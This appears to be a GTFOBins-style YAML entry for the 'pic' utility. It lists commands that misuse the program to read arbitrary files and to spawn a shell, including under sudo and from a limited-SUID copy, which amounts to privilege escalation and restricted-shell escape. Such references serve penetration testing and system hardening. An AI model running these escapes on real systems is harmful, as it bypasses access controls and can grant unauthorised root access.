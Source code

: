 ```yaml
---
functions:
  file-read:
    - description: The output is prefixed with a some content as a header.
      code: |
        LFILE=file_to_read
        pic $LFILE
  shell:
    - code: |
        pic -U
        .PS
        sh X sh X
  sudo:
    - code: |
        sudo pic -U
        .PS
        sh X sh X
  limited-suid:
    - code: |
        ./pic -U
        .PS
        sh X sh X
---
```

